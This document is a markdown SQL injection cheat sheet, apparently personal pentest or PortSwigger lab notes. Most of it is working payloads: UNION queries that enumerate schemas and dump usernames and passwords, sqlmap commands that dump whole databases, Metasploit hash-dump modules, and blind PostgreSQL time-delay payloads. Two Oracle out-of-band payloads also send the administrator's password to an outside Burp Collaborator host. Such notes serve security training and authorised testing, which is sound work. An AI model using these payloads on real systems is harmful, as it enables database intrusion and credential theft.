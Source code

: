 # Identify DBMS

## Manual detection of SQLi vulnerability
Test every entry points :
- single quote '
- boolean condition OR 1=1, OR 1=2 and look for difference in application behavior

# Manual database dumping
- Determine nb of columns (will fail if number > number of columns)
```
# ORDER BY method
' ORDER BY 1--
' ORDER BY 2--
' ORDER BY 3--

# UNION method
' UNION SELECT NULL--
' UNION SELECT NULL,NULL--
' UNION SELECT NULL,NULL,NULL--
```
- Find columns with string data (will fail if 'a' is on a non-string column)
```
' UNION SELECT 'a',NULL,NULL,NULL--
' UNION SELECT NULL,'a',NULL,NULL--
' UNION SELECT NULL,NULL,'a',NULL--
' UNION SELECT NULL,NULL,NULL,'a'--
```
- Retrieive database list
```
' UNION SELECT NULL,NULL,NULL,schema_name FROM information_schema.schemata'
```
- Retrieve table list
```
' UNION SELECT NULL,NULL,NULL,table_name FROM information_schema.tables WHERE table_schema="database"'
```
- Retrieve column list
```
' UNION SELECT NULL,NULL,NULL,column_name FROM information_schema.columns WHERE table_name="table"'
```
- Retrieve data from tables
```
' UNION SELECT NULL,NULL,NULL,username FROM database.table'
' UNION SELECT NULL,NULL,NULL,username FROM database.table WHERE id=1'
' UNION SELECT NULL,NULL,NULL,password FROM database.table WHERE username="admin"'
' UNION SELECT NULL,NULL,NULL,username FROM database.table LIMIT 1'
' UNION SELECT NULL,NULL,NULL,username FROM database.table LIMIT 1 OFFSET 2'
```

# sqlmap
- Basic SQLMap
```bash
sqlmap -u "http://url/avec?param=true" --batch
sqlmap -u "http://url/avec?param=true" --batch --cookie "KEY=Value"
# First: Save a raw request with Burpsuite or ZAP
sqlmap -r request.raw --batch --random-agent
```
- Dump database content
```bash
sqlmap -r request.raw --batch --random-agent -D database --dump
```

# metasploit
## Useful modules
- auxiliary/scanner/mysql/mysql_hashdump
- scanner/mysql/mysql_schemadump

## Blind SQLi with conditional errors
## Oracle
- Solution from lab @ portswigger academy
https://portswigger.net/web-security/sql-injection/blind/lab-conditional-errors

# Blind SQLi with time delay
## PostgreSQL
```
'||pg_sleep(10)--

'||CASE WHEN ((SELECT COUNT(*) FROM USERS WHERE username='administrator')=1) THEN pg_sleep(10) ELSE pg_sleep(0) END--

'||(SELECT CASE WHEN SUBSTR(password,1,20)='ra52nk91w82bclznk33j§a§' THEN pg_sleep(5) ELSE pg_sleep(0) END username FROM USERS WHERE username='administrator')--
```

# SQLi out of band
## Oracle
```
x'+UNION+SELECT+EXTRACTVALUE(xmltype('<%3fxml+version%3d"1.0"+encoding%3d"UTF-8"%3f><!DOCTYPE+root+[+<!ENTITY+%25+remote+SYSTEM+"http%3a//fziulre2bwio5m8oo8sinod3uu0xom.burpcollaborator.net/">+%25remote%3b]>'),'/l')+FROM+dual--

x'+UNION+SELECT+extractvalue(xmltype('<?xml version="1.0" encoding="UTF-8"?><!DOCTYPE root [ <!ENTITY %25 remote SYSTEM "http://'||(SELECT+password+FROM+users+WHERE+username+=+'administrator')||'.8enn0ktvqpxhkfnh317b2hsw9nfs3h.burpcollaborator.net/"> %25remote%3b]>'),'/l') FROM dual--
```

# Links
___
## Guides
- https://portswigger.net/web-security/sql-injection/cheat-sheet

## Writeups
- 